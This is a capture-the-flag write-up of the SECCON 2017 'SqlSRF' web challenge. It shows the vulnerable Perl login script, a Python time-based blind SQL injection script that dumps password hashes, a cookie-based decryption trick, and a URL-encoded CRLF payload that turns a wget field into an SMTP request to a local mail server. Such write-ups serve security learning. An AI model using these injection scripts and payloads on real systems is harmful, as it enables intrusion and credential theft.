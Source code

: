 # SqlSRF

SqlSRF was a 400 point Web challenge in the quals of SECCON 2017. While not exceptionally hard, it required a diverse skillset and was thus quite interesting.

## Challenge description

```
SqlSRF

The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
http://sqlsrf.pwn.seccon.jp/sqlsrf/ 
```

## The files

Upon clicking the link provided in the description, we're presented with a list of four files: *bg-header.jpg*, *index.cgi*, *index.cgi_backup20171129*, and *menu.cgi*.

I decided to look into the backup file of *index.cgi* right away. It contains the following code:

```perl
#!/usr/bin/perl

use CGI;
my $q = new CGI;

use CGI::Session;
my $s = CGI::Session->new(undef, $q->cookie('CGISESSID')||undef, {Directory=>'/tmp'});
$s->expire('+1M'); require './.htcrypt.pl';

my $user = $q->param('user');
print $q->header(-charset=>'UTF-8', -cookie=>
  [
    $q->cookie(-name=>'CGISESSID', -value=>$s->id),
    ($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
  ]),
  $q->start_html(-lang=>'ja', -encoding=>'UTF-8', -title=>'SECCON 2017', -bgcolor=>'black');
  $user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');

my $errmsg = '';
if($q->param('login') ne '') {
  use DBI;
  my $dbh = DBI->connect('dbi:SQLite:dbname=./.htDB');
  my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';");
  $errmsg = '<h2 style="color:red">Login Error!</h2>';
  eval {
    $sth->execute();
    if(my @row = $sth->fetchrow_array) {
      if($row[0] ne '' && $q->param('pass') ne '' && $row[0] eq &encrypt($q->param('pass'))) {
        $s->param('autheduser', $q->param('user'));
        print "<scr"."ipt>document.location='./menu.cgi';</script>";
        $errmsg = '';
      }
    }
  };
  if($@) {
    $errmsg = '<h2 style="color:red">Database Error!</h2>';
  }
  $dbh->disconnect();
}
$user = $q->escapeHTML($user);

print <<"EOM";
<!-- The Kusomon by KeigoYAMAZAKI, 2017 -->
<div style="background:#000 url(./bg-header.jpg) 50% 50% no-repeat;position:fixed;width:100%;height:300px;top:0;">
</div>
<div style="position:relative;top:300px;color:white;text-align:center;">
<h1>Login</h1>
<form action="?" method="post">$errmsg
<table border="0" align="center" style="background:white;color:black;padding:50px;border:1px solid darkgray;">
<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
<tr><td>Password:</td><td><input type="password" name="pass" value=""></td></tr>
<tr><td colspan="2"><input type="checkbox" name="save" value="1">Remember Me</td></tr>
<tr><td colspan="2" align="right"><input type="submit" name="login" value="Login"></td></tr>
</table>
</form>
</div>
</body>
</html>
EOM

1;
```
## SQL injection

Without thinking too much (and hinted by the title of the challenge), I noticed that this code was vulnerable to a Time-Based SQL injection. I also know that the DBMS used is SQLite. I wrote the following code:

```python
import requests
from time import time

url_prefix = 'http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi?login=1&user='
payload_prefix = "admin' and password like '"
payload_suffix = "%' and 1=randomblob(300000000)--"

chars = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_'
result = ''

while True:
    for char in chars:
        payload = url_prefix + payload_prefix + result + char + payload_suffix
        start = time()
        text = requests.get(payload).text
        end = time()
        if end - start > 2.5:
            result += char
            break
    print result
```

I just assumed that the username would be **admin** (which it was), but the username of the user can be bruteforced in the same way by modifying `payload_prefix` a bit.

I ended up with the following results:
```
username = admin
password = d2f37e101c0e76bcc90b5634a5510f64
```
Since the encrypted password found in the database was 32 characters long, I immediately thought that it could be **MD5**. Unfortunately, after checking several MD5 reversing websites, I was unable to find the original password.

At this point, I supposed that **admin** was not the only user in the database, and that maybe I should get access to *menu.cgi* using another user's credentials.

By modifying the previous script a bit, I managed to find the following credentials in the database:
```
username = user1
password = b8e32e6d23001fad5585258ba815e424f86eb0f42e8d0e9688dfb1293ee5e9ec
```

This encrypted password is clearly not 32 characters long, so I concluded that the `encrypt` function used in *index.cgi* was homemade. Unfortunately, I didn't manage to read the file using my SQL injection, as `readfile` was not available.

## Reversing the passwords

Since I was not able to read the file containing the definition of the `decrypt` function, I quickly realized that there should therefore be a way to call it.

By looking at the code a bit more, I realized that the following code could be exploited:

```perl
my $user = $q->param('user');
print $q->header(-charset=>'UTF-8', -cookie=>
  [
    $q->cookie(-name=>'CGISESSID', -value=>$s->id),
    ($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
  ]),
  $q->start_html(-lang=>'ja', -encoding=>'UTF-8', -title=>'SECCON 2017', -bgcolor=>'black');
  $user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');
```

By replaying a request with the `remember` cookie set and setting it to an encrypted password, it would end up displayed in the *username* field on the page, as the following code shows:

```html
<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
```

By doing that with the encrypted admin password `d2f37e101c0e76bcc90b5634a5510f64`, I managed to obtain the plaintext password "**Yes!Kusomon!!**".

Using the credentials **admin**/**Yes!Kusomon!!** then gives us access to *menu.cgi*.

## Command injection

*menu.cgi* is a page that lets us issue two shell commands to the server: `netstat -tnl` and `wget --debug -O /dev/stdout 'http://<user_controlled_input>'`.

After a few checks, it appears that it is not possible to simply issue arbitrary commands from the interface, as no command injection seems to be possible.

## SSRF

Now, the title of the challenge did mention some kind of **S(ql)SRF**. Based on this knowledge, I ran the `netstat -tnl` command and got the following output:
```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:25                  :::*                    LISTEN     
```

Hm… A service is running locally on port 25, which is common for **SMTP**. The description of the challenge **did** say that the root would reply with the flag to my mail address if I sent him a flag with the subject *give me flag*.

Coincidentally, this also reminded me of this [presentation](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) at **BlackHat USA 2017** (*TL;DR `wget` is vulnerable to CRLF injections*).

Armed with this knowledge, it was just a matter of crafting the payload, with every special character url encoded:
```
127.0.0.1 %0D%0AHELO sqlsrf.pwn.seccon.jp%0D%0AMAIL FROM%3A %3CSIben%40mindyourownbusiness.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0Agive me flag%0D%0A.%0D%0AQUIT%0D%0A:25/
```

A few seconds after sending this payload, I received an email with the following content:
```
Encrypted-FLAG: 37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19
```

More encryption? I immediately went back to the *Reversing the passwords* step and put this encrypted string in the cookie.

This outputs the flag: **SECCON{SSRFisMyFriend!}**
